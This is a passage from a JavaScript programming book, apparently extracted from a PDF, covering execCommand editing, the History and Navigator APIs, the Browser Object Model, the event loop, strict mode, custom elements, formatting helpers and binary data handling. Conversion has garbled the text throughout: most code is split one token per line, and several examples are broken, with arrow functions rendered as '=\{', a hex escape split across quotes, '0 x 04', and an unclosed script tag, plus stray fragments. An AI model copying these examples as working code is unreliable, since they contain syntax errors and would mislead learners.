.

(see: ***Parameters***→*value*)
>
Example using the \"bold\" **command** and \"formatBlock\" (where a
**value** is expected):
>
document.execCommand(\"bold\", **false**, \"\"); *// Make selected
text bold* document.execCommand(\"formatBlock\", **false**, \"H2\");
*// Make selected text Block-level \<h2\>*
>
**Quick Start Example:**

**\<**

**button**

data-edit

=

\"bold\"

**\>**

**\<**

**b**

**\>**

B

**\<**

**/b**

**\>**

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"italic\"

**\>**

**\<**

**i**

**\>**

I

**\<**

**/i**

**\>**

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"formatBlock:p\"

**\>**

P

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"formatBlock:H1\"

**\>**

H1

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"insertUnorderedList\"

**\>**

UL

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"justifyLeft\"

**\>**

&#8676;

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"justifyRight\"

**\>**

&#8677;

**\<**

**/button**

**\>**

**\<**

**button**

data-edit

=

\"removeFormat\"

**\>**

&times;

**\<**

**/button**

**\>**

**\<**

**div**

contenteditable

**\>**

**\<**

**p**

**\>**

Edit me!

**\<**

**/p**

**\>**

**\<**

**/div**

**\>**

**\<**

**script**

**\>**

\[\]

.forEach.call(document.querySelectorAll(\"\[data-edit\]\"),
function(btn)

{

btn.addEventListener(\"click\", edit, false);

})

;

function edit(event) {

event.preventDefault();

var cmd_val = this.dataset.edit.split(\":\");

document.execCommand(cmd_val\[0\], false, cmd_val\[1\]);

}

**\<**

**script**

**\>**

[jsFiddle demo](https://jsfiddle.net/RokoCB/az7f38w7/)
>
[Basic Rich-Text editor example (Modern
browsers)](https://jsfiddle.net/RokoCB/yvshdr4q/)
>
**Final thoughts**
>
Even being present for a long time (IE6), implementations and
behaviors of execCommand vary from browser to browser making
\"building a Fully-featured and cross-browser compatible WYSIWYG
editor\" a hard task to any experienced JavaScript developer.
>
Even if not yet fully standardized you can expect pretty decent
results on the newer browsers like **Chrome, Firefox, Edge**. If you
need *better* support for other browsers and more features like
HTMLTable editing etc. a rule of thumbs is to look for an **already
existent** and robust **Rich-Text** editor.

## Section 45.3: Copy to clipboard from textarea using execCommand(\"copy\")

Example:

\<!

DOCTYPE html

\>

\<

html lang

=

\"en\"

\>

\<

head

\>

\<

meta charset

=

\"UTF-8\"

\>

\<

title

\>\<

/

title

\>

\<

/

head

\>

\<

body

\>

\<

textarea id

=

\"content\"

\>\<

/

textarea

\>

\<

input type

=

\"button\"

id

=

\"copyID\"

value

=

\"Copy\"

/\>

\<

script type

=

\"text/javascript\"

\>

**var**

button

=

document.

getElementById

(

\"copyID\"

)

,

input

=

document.

getElementById

(

\"content\"

)

;

button.

addEventListener

(

\"click\"

,

**function**

(

event

)

{

event.

preventDefault

(

)

;

input.

select

(

)

;

document.

execCommand

(

\"copy\"

)

;

}

)

;

\<

/

script

\>

\<

/

body

\>

\<

/

html

\>

document.

execCommand

(

\"copy\"

)

copies the current selection to the clipboard

## Section 45.4: Formatting

Users can add formatting to contenteditable documents or elements
using their browser\'s features, such as common keyboard shortcuts for
formatting ( Ctrl-B for **bold**, Ctrl-I for *italic*, etc.) or by
dragging and dropping images, links, or markup from the clipboard.
>
Additionally, developers can use JavaScript to apply formatting to the
current selection (highlighted text).
>
document.execCommand(\'bold\', **false**, **null**); *// toggles bold
formatting* document.execCommand(\'italic\', **false**, **null**); *//
toggles italic formatting* document.execCommand(\'underline\',
**false**, **null**); *// toggles underline*

# Chapter 46: History

**Parameter Details**

domain The domain you want to update to title The title to update to
path The path to update to

## Section 46.1: history.pushState()

Syntax :

history.

pushState

(

state object

,

title

,

url

)

This method allows to ADD histories entries. For more reference,
Please have a look on this document : [pushState()
method](https://developer.mozilla.org/en-US/docs/Web/API/History_API#The_pushState()_method)

**Example :** window.history.pushState(\"http://example.ca\", \"Sample
Title\", \"/example/path.html\");

This example inserts a new record into the history, address bar, and
page title.

  
  history.replaceState
  

  

Note this is different from the (). Which updates the current history
entry, rather than adding a new one.

## Section 46.2: history.replaceState()

**Syntax :**

history.

replaceState

(

data

,

title

\[

,

url

\]

)

This method modifies the current history entry instead of creating a
new one. Mainly used when we want to update URL of the current history
entry. window.history.replaceState(\"http://example.ca\", \"Sample
Title\", \"/example/path.html\");
>
This example replaces the current history, address bar, and page
title.

  
  history.pushState
  

  

Note this is different from the (). Which inserts a new history entry,
rather than replacing the current one.

## Section 46.3: Load a specific URL from the history list

**go() method**
>
The go() method loads a specific URL from the history list. The
parameter can either be a number which goes to the URL within the
specific position (-1 goes back one page, 1 goes forward one page), or
a string. The string must be a partial or full URL, and the function
will go to the first URL that matches the string. Syntax

history.

go

(

number

\|

URL

)

Example

Click on the button to go back two pages:

**\<**

**html**

**\>**

**\<**

**head**

**\>**

**\<**

**script**

type

=

\"text/javascript\"

**\>**

function goBack()

{

window.history.go(-2)

}

**\<**

**/script**

**\>**

**\<**

**/head**

**\>**

**\<**

**body**

**\>**

**\<**

**input**

type

=

\"button\"

value

=

\"Go back 2 pages\"

onclick

=

\"goBack()\"

**/\>**

**\<**

**/body**

**\>**

**\<**

**/html**

**\>**

# Chapter 47: Navigator Object

## Section 47.1: Get some basic browser data and return it as a JSON object

The following function can be used to get some basic information about
the current browser and return it in JSON format.

**function**

getBrowserInfo

(

)

{

**var**

json

=

\"\[{\"

,

*/\* The array containing the browser info \*/*

info

=

\[

navigator.

userAgent

,

*// Get the User-agent*

navigator.

cookieEnabled

,

*// Checks whether cookies are enabled in browser*

navigator.

appName

,

*// Get the Name of Browser*

navigator.

language

,

*// Get the Language of Browser*

navigator.

appVersion

,

*// Get the Version of Browser*

navigator.

platform

*// Get the platform for which browser is compiled*

\]

,

*/\* The array containing the browser info names \*/*

infoNames

=

\[

\"userAgent\"

,

\"cookiesEnabled\"

,

\"browserName\"

,

\"browserLang\"

,

\"browserVersion\"

,

\"browserPlatform\"

\]

;

*/\* Creating the JSON object \*/*

**for**

(

**var**

i

=

0

;

i

\<

info.

length

;

i

++

)

{

**if**

(

i

===

info.

length

\-

1

)

{

json

+=

\'\"\'

\+

infoNames

\[

i

\]

\+

\'\": \"\'

\+

info

\[

i

\]

\+

\'\"\'

;

}

**else**

{

json

+=

\'\"\'

\+

infoNames

\[

i

\]

\+

\'\": \"\'

\+

info

\[

i

\]

\+

\'\",\'

;

}

}

;

**return**

json

\+

\"}\]\"

;

}

;

# Chapter 48: BOM (Browser Object Model)

## Section 48.1: Introduction

The BOM (Browser Object Model) contains objects that represent the
current browser window and components; objects that model things like
*history, device\'s screen,* etc
>
The topmost object in BOM is the window object, which represents the
current browser window or tab.

**Document:**

represents current web page.

**History:**

represents pages in browser history.

**Location:**

represents URL of current page.

**Navigator:**

represents information about browser.

**Screen:**

represents device\'s display information.

## Section 48.2: Window Object Properties

The Window Object contains the following properties.

**Property Description**

window.closed Whether the window has been closed

  
  **\<iframe**
  

  

window.length Number of **\>** elements in window window.name Gets or
sets the name of the window window.innerHeight Height of window
window.innerWidth Width of window window.screenX X-coordinate of
pointer, relative to top left corner of screen window.screenY
Y-coordinate of pointer, relative to top left corner of screen
window.location Current URL of window object (or local file path)
window.history Reference to history object for browser window or tab.
>
window.screen Reference to screen object window.pageXOffset Distance
document has been scrolled horizontally window.pageYOffset Distance
document has been scrolled vertically

## Section 48.3: Window Object Methods

  
  Browser Object Model
  

  

The most important object in the is the window object. It helps in
accessing information about the browser and its components. To access
these features, it has various methods and properties.

+++
| **Method**         | **Description**                               |
+====================+=================================================+
| window.alert()     | Creates dialog box with message and an OK       |
|                    | button                                          |
+++
| window.blur()      | Remove focus from window                        |
+++
| window.close()     | Closes a browser window                         |
+++
| window.confirm()   | Creates dialog box with message, an OK button   |
|                    | and a cancel button                             |
+++

window.getComputedStyle() Get CSS styles applied to an element

  
  window.moveTo(x,y)     Move a window\'s left and top edge to supplied
                         coordinates
  - -
  window.open()          Opens new browser window with URL specified as
                         parameter

  window.print()         Tells browser that user wants to print contents
                         of current page

  window.prompt()        Creates dialog box for retrieving user input

  window.scrollBy()      Scrolls the document by the specified number of
                         pixels

  window.scrollTo()      Scrolls the document to the specified
                         coordinates

  window.setInterval()   Do something repeatedly at specified intervals

  window.setTimeout()    Do something after a specified amount of time

  window.stop()          Stop window from loading
  

# Chapter 49: The Event Loop

## Section 49.1: The event loop in a web browser

The vast majority of modern JavaScript environments work according to
an *event loop*. This is a common concept in computer programming
which essentially means that your program continually waits for new
things to happen, and when they do, reacts to them. The *host
environment* calls into your program, spawning a \"turn\" or \"tick\"
or \"task\" in the event loop, which then *runs to completion*. When
that turn has finished, the host environment waits for something else
to happen, before all this starts.
>
A simple example of this is in the browser. Consider the following
example:

\<!

DOCTYPE html

\>

**\<**

**title**

**\>**

Event loop example

**\<**

**/title**

**\>**

**\<**

**script**

**\>**

console.log(\"this a script entry point\");

document.body.onclick = () =\{

console.log(\"onclick\");

}

;

setTimeout(() =\{

console.log(\"setTimeout callback log 1\");

console.log(\"setTimeout callback log 2\");

}

, 100);

**\<**

**/script**

**\>**

In this example, the host environment is the web browser.

  
  **\<script**
  

  

1.  The HTML parser will first execute the **\>**. It will run to
    completion.

2.  The call to
    [setTimeout](https://html.spec.whatwg.org/multipage/webappapis.html#dom-settimeout)
    tells the browser that, after 100 milliseconds, it should enqueue a
    [task](https://html.spec.whatwg.org/multipage/webappapis.html#concept-task)
    to perform the given action.

3.  In the meantime, the event loop is then responsible for continually
    checking if there\'s something else to do:

for example, rendering the web page.

4.  After 100 milliseconds, if the event loop is not busy for some other
    reason, it will see the task that setTimeout enqueues, and run the
    function, logging those two statements.

5.  At any time, if someone clicks on the body, the browser will post a
    task to the event loop to run the click handler function. The event
    loop, as it goes around continually checking what to do, will see
    this, and run that function.

You can see how in this example there are several different types of
entry points into JavaScript code, which the event loop invokes:

  
  **\<script**
  

  

The **\>** element is invoked immediately
>
The setTimeout task is posted to the event loop and run once
>
The click handler task can be posted many times and run each time
>
Each turn of the event loop is responsible for many things; only some
of them will invoke these JavaScript tasks. For full details, [see the
HTML
specification](https://html.spec.whatwg.org/multipage/webappapis.html#event-loop-processing-model)

  
  setTimeout callback log
  

  

One last thing: what do we mean by saying that each event loop task
\"runs to completion\"? We mean that it is not generally possible to
interrupt a block of code that is queued to run as a task, and it is
never possible to run code interleaved with another block of code. For
example, even if you clicked at the perfect time, you could never get
the above code to log \"onclick\" in between the two 1/2\"s. This is
due to the way the taskposting works; it is cooperative and
queue-based, instead of preemptive.

## Section 49.2: Asynchronous operations and the event loop

Many interesting operations in common JavaScript programming
environments are asynchronous. For example, in the browser we see
things like

window.

setTimeout

(

(

)

=\>

{

console.

log

(

\"this happens later\"

)

;

}

,

100

)

;

and in Node.js we see things like

fs.

readFile

(

\"file.txt\"

,

(

err

,

data

)

=\>

{

console.

log

(

\"data\"

)

;

}

)

;

How does this fit with the event loop?

  
  file.txt
  

  

How this works is that when these statements execute, they tell the
*host environment* (i.e., the browser or Node.js runtime,
respectively) to go off and do something, probably in another thread.
When the host environment is done doing that thing (respectively,
waiting 100 milliseconds or reading the file ) it will post a task to
the event loop, saying \"call the callback I was given earlier with
these arguments\".
>
The event loop is then busy doing its thing: rendering the webpage,
listening for user input, and continually looking for posted tasks.
When it sees these posted tasks to call the callbacks, it will call
back into JavaScript. That\'s how you get asynchronous behavior!

# Chapter 50: Strict mode

## Section 50.1: For entire scripts

  
  \"use strict\"
  

  

Strict mode can be applied on entire scripts by placing the statement
; before any other statements.

\"use strict\"

;

*// strict mode now applies for the rest of the script*

Strict mode is only enabled in scripts where you define \"use
strict\". You can combine scripts with and without strict mode,
because the strict state is not shared among different scripts.

Version ≥ 6

**Note:** All code written inside ES2015+ modules and classes are
strict by default.

## Section 50.2: For functions

  
  \"use strict\"
  

  

Strict mode can also be applied to single functions by prepending the
; statement at the beginning of the function declaration.

**function**

strict

(

)

{

\"use strict\"

;

*// strict mode now applies to the rest of this function*

**var**

innerFunction

=

**function**

(

)

{

*// strict mode also applies here*

}

;

}

**function**

notStrict

(

)

{

*// but not here*

}

Strict mode will also apply to any inner scoped functions.

## Section 50.3: Changes to properties

Strict mode also prevents you from deleting undeletable properties.

\"use strict\"

;

**delete**

Object

.

**prototype**

;

*// throws a TypeError*

The above statement would simply be ignored if you don\'t use strict
mode, however now you know why it does not execute as expected.
>
It also prevents you from extending a non-extensible property.

**var**

myObject

=

{

name

:

\"My Name\"

}

Object

.

preventExtensions

(

myObject

)

;

**function**

setAge

(

)

{

myObject.

age

=

25

;

*// No errors*

}

**function**

setAge

(

)

{

\"use strict\"

;

myObject.

age

=

25

;

*// TypeError: can\'t define property \"age\": Object is not extensible*

}

## Section 50.4: Changes to global properties

In a non-strict-mode scope, when a variable is assigned without being
initialized with the **var**, **const** or the **let** keyword, it is
automatically declared in the global scope:

a

=

12

;

console.

log

(

a

)

;

*// 12*

In strict mode however, any access to an undeclared variable will
throw a reference error:

\"use strict\"

;

a

=

12

;

*// ReferenceError: a is not defined*

console.

log

(

a

)

;

This is useful because JavaScript has a number of possible events that
are sometimes unexpected. In non-strictmode, these events often lead
developers to believe they are bugs or unexpected behavior, thus by
enabling strictmode, any errors that are thrown enforces them to know
exactly what is being done.
>
\"use strict\";
>
*// Assuming a global variable mistypedVariable exists*
mistypedVaraible = 17; *// this line throws a ReferenceError due to
the*
>
*// misspelling of variable*
>
This code in strict mode displays one possible scenario: it throws a
reference error which points to the assignment\'s line number,
allowing the developer to immediately detect the mistype in the
variable\'s name.
>
In non-strict-mode, besides the fact that no error is thrown and the
assignment is successfully made, the mistypedVaraible will be
automatically declared in the global scope as a global variable. This
implies that the developer needs to look up manually this specific
assignment in the code.
>
Furthermore, by forcing declaration of variables, the developer cannot
accidentally declare global variables inside functions. In
non-strict-mode:

**function**

foo

(

)

{

a

=

\"bar\"

;

*// variable is automatically declared in the global scope*

}

foo

(

)

;

console.

log

(

a

)

;

*// \>\bar*

In strict mode, it is necessary to explicitly declare the variable:

**function**

strict_scope

(

)

{

\"use strict\"

;

**var**

a

=

\"bar\"

;

*// variable is local*

}

strict_scope

(

)

;

console.

log

(

a

)

;

*// \>\\"ReferenceError: a is not defined\"*

The variable can also be declared outside and after a function,
allowing it to be used, for instance, in the global scope:

**function**

strict_scope

(

)

{

\"use strict\"

;

a

=

\"bar\"

;

*// variable is global*

}

**var**

a

;

strict_scope

(

)

;

console.

log

(

a

)

;

*// \>\bar*

## Section 50.5: Duplicate Parameters

Strict mode does not allow you to use duplicate function parameter
names.

**function**

foo

(

bar

,

bar

)

{

}

*// No error. bar is set to the final argument when called*

\"use strict\"

;

**function**

foo

(

bar

,

bar

)

{

}

;

*// SyntaxError: duplicate formal argument bar*

## Section 50.6: Function scoping in strict mode

In Strict Mode, functions declared in a local block are inaccessible
outside the block.

\"use strict\"

;

{

f

(

)

;

*// \'hi\'*

**function**

f

(

)

{

console.

log

(

\'hi\'

)

;

}

}

f

(

)

;

*// ReferenceError: f is not defined*

Scope-wise, function declarations in Strict Mode have the same kind of
binding as **let** or **const**.

## Section 50.7: Behaviour of a function\'s arguments list

arguments object behave different in *strict* and *non strict* mode.
In *non-strict* mode, the argument object will reflect the changes in
the value of the parameters which are present, however in *strict*
mode any changes to the value of the parameter will not be reflected
in the argument object.

**function**

add

(

a

,

b

)

{

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

*// Prints : 1,2*

a

=

5

,

b

=

10

;

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

*// Prints : 5,10*

}

add

(

1

,

2

)

;

For the above code, the arguments object is changed when we change the
value of the parameters. However, for *strict* mode, the same will not
be reflected.

**function**

add

(

a

,

b

)

{

\'use strict\'

;

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

*// Prints : 1,2*

a

=

5

,

b

=

10

;

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

*// Prints : 1,2*

}

It\'s worth noting that, if any one of the parameters is
**undefined**, and we try to change the value of the parameter in both
*strict-mode* or *non-strict* mode the arguments object remains
unchanged.
>
**Strict mode**

**function**

add

(

a

,

b

)

{

\'use strict\'

;

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

*// undefined,undefined*

*// 1,undefined*

a

=

5

,

b

=

10

;

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

*// undefined,undefined*

*// 1, undefined*

}

add

(

)

;

*// undefined,undefined*

*// undefined,undefined*

add

(

1

)

*// 1, undefined*

*// 1, undefined*

**Non-Strict Mode**

**function**

add

(

a

,

b

)

{

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

a

=

5

,

b

=

10

;

console.

log

(

arguments

\[

0

\]

,

arguments

\[

1

\]

)

;

}

add

(

)

;

*// undefined,undefined*

*// undefined,undefined*

add

(

1

)

;

*// 1, undefined*

*// 5, undefined*

## Section 50.8: Non-Simple parameter lists

**function**

a

(

x

=

5

)

{

\"use strict\"

;

}

is invalid JavaScript and will throw a

SyntaxError

because you cannot use the directive

\"use strict\"

in a function

with Non-Simple Parameter list like the one above - default assignment

x

=

5

Non-Simple parameters include -

Default assignment

**function**

a

(

x

=

1

)

{

\"use strict\"

;

}

Destructuring

**function**

a

(

{

x

}

)

{

\"use strict\"

;

}

Rest params

**function**

a

(

\...

args

)

{

\"use strict\"

;

}

# Chapter 51: Custom Elements

**Parameter Details**

name The name of the new custom element. options.extends The name of
the native element being extended, if any. options.prototype The
custom prototype to use for the custom element, if any.

## Section 51.1: Extending Native Elements

  
  **\**
  

  

It\'s possible to extent native elements, but their descendants don\'t
get to have their own tag names. Instead, the is attribute is used to
specify which subclass an element is supposed to use. For example,
here\'s an extension of the element which logs a message to the
console when it\'s loaded.

**const**

**prototype**

=

Object

.

create

(

HTMLImageElement.

**prototype**

)

;

**prototype**

.

createdCallback

=

**function**

(

)

{

**this**

.

addEventListener

(

\'load\'

,

event

=\>

{

console.

log

(

\"Image loaded successfully.\"

)

;

}

)

;

}

;

document.

registerElement

(

\'ex-image\'

,

{

extends

:

\'img\'

,

**prototype**

:

**prototype**

}

)

;

**\<**

**img**

is

=

\"ex-image\"

src

=

\"http://cdn.sstatic.net/Sites/stackoverflow/img/apple-touch-icon.png\"

**/\>**

## Section 51.2: Registering New Elements

  
  **\<initially-hidden\>**
  

  

Defines an custom element which hides its contents until a specified
number of seconds have elapsed.

**const**

InitiallyHiddenElement

=

document.

registerElement

(

\'initially-hidden\'

,

class

extends

HTMLElement

{

createdCallback

(

)

{

**this**

.

revealTimeoutId

=

**null**

;

}

attachedCallback

(

)

{

**const**

seconds

=

Number

(

**this**

.

getAttribute

(

\'for\'

)

)

;

**this**

.

style

.

display

=

\'none\'

;

**this**

.

revealTimeoutId

=

setTimeout

(

(

)

=\>

{

**this**

.

style

.

display

=

\'block\'

;

}

,

seconds

\*

1000

)

;

}

detachedCallback

(

)

{

**if**

(

**this**

.

revealTimeoutId

)

{

clearTimeout

(

**this**

.

revealTimeoutId

)

;

**this**

.

revealTimeoutId

=

**null**

;

}

}

}

)

;

**\<**

**initially-hidden**

for

=

\"2\"

**\>**

Hello

**\<**

**/initially-hidden**

**\>**

**\<**

**initially-hidden**

for

=

\"5\"

**\>**

World

**\<**

**/initially-hidden**

**\>**

# Chapter 52: Data Manipulation

## Section 52.1: Format numbers as money

  
  1234567.89 =\\"1,234,567.89\"
  

  

Fast and short way to format value of type Number as money, e.g. :

**var**

num

=

1234567.89

,

formatted

;

formatted

=

num.

toFixed

(

2

)

.

replace

(

*/\\d(?=(\\d{3})+\\.)/g*

,

\'\$&,\'

)

;

*// \"1,234,567.89\"*

+-+-+-+
| .. n\] | , variable size of number groups \[            | 0 .. x\] |
+==========+================================================+==========+
+-+-+-+

More advanced variant with support of any number of decimals \[0 and
different delimiter types:

*/\*\**

*\* Number.prototype.format(n, x, s, c)*

*\**

*\* \@param integer n: length of decimal*

*\* \@param integer x: length of whole part*

*\* \@param mixed s: sections delimiter*

*\* \@param mixed c: decimal delimiter*

*\*/*

Number

.

**prototype**

.

format

=

**function**

(

n

,

x

,

s

,

c

)

{

**var**

re

=

\'

**\\\\**

d(?=(

**\\\\**

d{\'

\+

(

x

\|\|

3

)

\+

\'})+\'

\+

(

n

\>

0

?

\'

**\\\\**

D\'

:

\'\$\'

)

\+

\')\'

,

num

=

**this**

.

toFixed

(

Math

.

max

(

0

,

\~\~n

)

)

;

**return**

(

c

?

num.

replace

(

\'.\'

,

c

)

:

num

)

.

replace

(

**new**

RegExp

(

re

,

\'g\'

)

,

\'\$&\'

\+

(

s

\|\|

\',\'

)

)

;

}

;

12345678.9

.

format

(

2

,

3

,

\'.\'

,

\',\'

)

;

*// \"12.345.678,90\"*

123456.789

.

format

(

4

,

4

,

\' \'

,

\':\'

)

;

*// \"12 3456:7890\"*

12345678.9

.

format

(

0

,

3

,

\'-\'

)

;

*// \"12-345-679\"*

123456789

..

format

(

2

)

;

*// \"123,456,789.00\"*

## Section 52.2: Extract extension from file name

Fast and short way to extract extension from file name in JavaScript
will be:

**function**

get_extension

(

filename

)

{

**return**

filename.

slice

(

(

filename.

lastIndexOf

(

\'.\'

)

\-

1

\>\>\>

0

)

\+

2

)

;

}

  
  .htaccess
  

  

It works correctly both with names having no extension (e.g. myfile)
or starting with . dot (e.g. ):
>
get_extension(\'\') *// \"\"* get_extension(\'name\') *// \"\"*
get_extension(\'name.txt\') *// \"txt\"* get_extension(\'.htpasswd\')
*// \"\"* get_extension(\'name.with.many.dots.myext\') *// \"myext\"*
>
The following solution may extract file extensions from full path:
>
**function** get_extension(path) { **var** basename =
path.split(/\[\\\\/\]/).pop(), *// extract file name from full path
\...* *// (supports \`\\\\\` and \`/\` separators)* pos =
basename.lastIndexOf(\'.\'); *// get last position of \`.\`*

**if**

(

basename

===

\'\'

\|\|

pos

\<

1

)

*// if file name is empty or \...*

**return**

\"\"

;

*// \`.\` not found (-1) or comes first (0)*

**return**

basename.

slice

(

pos

\+

1

)

;

*// extract extension ignoring \`.\`*

}

get_extension

(

\'/path/to/file.ext\'

)

;

*// \"ext\"*

## Section 52.3: Set object property given its string name

**function**

assign

(

obj

,

prop

,

value

)

{

**if**

(

**typeof**

prop

===

\'string\'

)

prop

=

prop.

split

(

\'.\'

)

;

**if**

(

prop.

length

\>

1

)

{

**var**

e

=

prop.

shift

(

)

;

assign

(

obj

\[

e

\]

=

Object

.

**prototype**

.

toString

.

call

(

obj

\[

e

\]

)

===

\'\[object Object\]\'

?

obj

\[

e

\]

:

{

}

,

prop

,

value

)

;

}

**else**

obj

\[

prop

\[

0

\]

\]

=

value

;

}

**var**

obj

=

{

}

,

propName

=

\'foo.bar.foobar\'

;

assign

(

obj

,

propName

,

\'Value\'

)

;

*// obj == {*

*// foo : {*

*// bar : {*

*// foobar : \'Value\'*

*// }*

*// }*

*// }*

# Chapter 53: Binary Data

## Section 53.1: Getting binary representation of an image file

This example is inspired by [this
question](http://stackoverflow.com/q/38334315/2271269).
>
We\'ll assume you know how to [load a file using the File
API](http://www.html5rocks.com/en/tutorials/file/dndfiles/).

*// preliminary code to handle getting local file and finally printing
to console*

*// the results of our function ArrayBufferToBinary().*

**var**

file

=

*// get handle to local file.*

**var**

reader

=

**new**

FileReader

(

)

;

reader.

onload

=

**function**

(

event

)

{

**var**

data

=

event.

target

.

result

;

console.

log

(

ArrayBufferToBinary

(

data

)

)

;

}

;

reader.

readAsArrayBuffer

(

file

)

;

*//gets an ArrayBuffer of the file*

Now we perform the actual conversion of the file data into 1\'s and
0\'s using a DataView:

**function**

ArrayBufferToBinary

(

buffer

)

{

*// Convert an array buffer to a string bit-representation: 0 1 1 0 0
0\...*

**var**

dataView

=

**new**

DataView

(

buffer

)

;

**var**

response

=

\"\"

,

offset

=

(

8

/

8

)

;

**for**

(

**var**

i

=

0

;

i

\<

dataView.

byteLength

;

i

+=

offset

)

{

response

+=

dataView.

getInt8

(

i

)

.

toString

(

2

)

;

}

**return**

response

;

}

  
  toString
  

  

DataViews let you read/write numeric data; getInt8 converts the data
from the byte position - here 0, the value passed in - in the
ArrayBuffer to signed 8-bit integer representation, and (2) converts
the 8-bit integer to binary representation format (i.e. a string of
1\'s and 0\'s).
>
Files are saved as bytes. The \'magic\' offset value is obtained by
noting we are taking files stored as bytes i.e. as 8-bit integers and
reading it in 8-bit integer representation. If we were trying to read
our byte-saved (i.e. 8 bits) files to 32-bit integers, we would note
that 32/8 = 4 is the number of byte spaces, which is our byte offset
value.
>
For this task, DataViews are overkill. They are typically used in
cases where endianness or heterogeneity of data are encountered (e.g.
in reading PDF files, which have headers encoded in different bases
and we would like to meaningfully extract that value). Because we just
want a textual representation, we do not care about heterogeneity as
there is never a need to
>
A much better - and shorter - solution can be found using an
UInt8Array typed array, which treats the entire ArrayBuffer as
composed of unsigned 8-bit integers:

**function**

ArrayBufferToBinary

(

buffer

)

{

**var**

uint8

=

**new**

Uint8Array

(

buffer

)

;

**return**

uint8.

reduce

(

(

binary

,

uint8

)

=\>

binary

\+

uint8.

toString

(

2

)

,

\"\"

)

;

}

## Section 53.2: Converting between Blobs and ArrayBuers

JavaScript has two primary ways to represent binary data in the
browser. ArrayBuffers/TypedArrays contain mutable (though still
fixed-length) binary data which you can directly manipulate. Blobs
contain immutable binary data which can only be accessed through the
asynchronous File interface.

**Convert a**

**Blob**

**to an**

**ArrayBuffer**

**(asynchronous)**

**var**

blob

=

**new**

Blob

(

\[

\"

**\\x**

01

**\\x**

02

**\\x**

03

**\\x**

04

\"

\]

)

,

fileReader

=

**new**

FileReader

(

)

,

array

;

fileReader.

onload

=

**function**

(

)

{

array

=

**this**

.

result

;

console.

log

(

\"Array contains\"

,

array.

byteLength

,

\"bytes.\"

)

;

}

;

fileReader.

readAsArrayBuffer

(

blob

)

;

Version ≥ 6

**Convert a Blob to an ArrayBuffer using a Promise (asynchronous)**

**var**

blob

=

**new**

Blob

(

\[

\"

**\\x**

01

**\\x**

02

**\\x**

03

**\\x**

\"

04

\]

)

;

**var**

arrayPromise

=

**new**

Promise

(

**function**

(

resolve

)

{

**var**

reader

=

**new**

FileReader

(

)

;

reader.

onloadend

=

**function**

(

)

{

resolve

(

reader.

result

)

;

}

;

reader.

readAsArrayBuffer

(

blob

)

;

}

)

;

arrayPromise.

then

(

**function**

(

array

)

{

console.

log

(

\"Array contains\"

,

array.

byteLength

,

\"bytes.\"

)

;

}

)

;

**Convert an**

**ArrayBuffer**

**or typed array to a**

**Blob**

**var**

array

=

**new**

Uint8Array

(

\[

0

x

04

,

0x06

,

0x07

,

0x08

\]

)

;

**var**

blob

=

**new**

Blob

(

\[

array

\]

)

;

## Section 53.3: Manipulating ArrayBuers with DataViews

DataViews provide methods to read and write individual values from an
ArrayBuffer, instead of viewing the entire thing as an array of a
single type. Here we set two bytes individually then interpret them
together as a 16-bit unsigned integer, first big-endian then
little-endian.

**var**

buffer

=

**new**

ArrayBuffer

(

2

)

;

**var**

view

=

**new**

DataView

(

buffer

)

;

view.

setUint8

(

0

,

0xFF

)

;

view.

setUint8

(

1

,

0x01

)

;

console.

log

(

view.

getUint16

(

0

,

**false**

)

)

;

*// 65281*

console.

log

(

view.

getUint16

(

0

,

**true**

)

)

;

*// 511*

## Section 53.4: Creating a TypedArray from a Base64 string

**var**

data

=

\'iVBORw0KGgoAAAANSUhEUgAAAAUAAAAFCAYAAACN\'

\+

\'byblAAAAHElEQVQI12P4//8/w38GIAXDIBKE0DHx\'

\+

\'gljNBAAO9TXL0Y4OHwAAAABJRU5ErkJggg==\'

;

**var**

characters

=

atob

(

data

)

;

**var**

array

=

**new**

Uint8Array

(

characters.

length

)

;

**for**

(

**var**

i

=

0

;

i

\<

characters.

length

;

i

++

)

{

array

\[

i

\]

=

characters.

charCodeAt

(

i

)

;

}

## Section 53.5: Using TypedArrays

TypedArrays are a set of types providing different views into
fixed-length mutable binary ArrayBuffers. For the most part, they act
like Arrays that coerce all assigned values to a given numeric type.
You can pass an ArrayBuffer instance to a TypedArray constructor to
create a new view of its data.

**var**

buffer

=

**new**

ArrayBuffer

(

8

)

;

**var**

byteView

=

**new**

Uint8Array

(

buffer

)

;

**var**

floatView

=

**new**

Float64Array

(

buffer

)

;

console.

log

(

byteView

)

;

*// \[0, 0, 0, 0, 0, 0, 0, 0\]*

console.

log

(

floatView

)

;

*// \[0\]*

byteView

\[

0

\]

=

0x01

;

byteView

\[

1

\]

=

0x02

;

byteView

\[

2

\]

=

0x04

;

byteView

\[

3

\]

=

0x08

;

console.

log

(

floatView

)

;

*// \[6.64421383e-316\]*

  
  slice                                   (       \...
   - 

  

ArrayBuffers can be copied using the .) method, either directly or
through a TypedArray view.

**var**

byteView2

=

byteView.

slice

(

)

;

**var**

floatView2

=

**new**

Float64Array

(

byteView2.

buffer

)

;

byteView2

\[

6

\]

=

0xFF

;

console.

log

(

floatView

)

;

*// \[6.64421383e-316\]*

console.

log

(

floatView2

)

;

*// \[7.06327456e-304\]*

## Section 53.6: Iterating through an arrayBuer

For a convenient way to iterate through an arrayBuffer, you can create
a simple iterator that implements the DataView methods under the hood:

**var**

ArrayBufferCursor

=

**function**

(

)

{

**var**

ArrayBufferCursor

=

**function**

(

arrayBuffer

)

{

**this**

.

dataview

=

**new**

DataView

(

arrayBuffer

,

0

)

;

**this**

.

size

=

arrayBuffer.

byteLength

;

**this**

.

index

=

0

;

}

ArrayBufferCursor.

**prototype**

.

next

=

**function**

(

type

)

{

**switch**

(

type

)

{

**case**

\'Uint8\'

:

**var**

result

=

**this**

.

dataview

.

getUint8

(

**this**

.

index

)

;

**this**

.

index

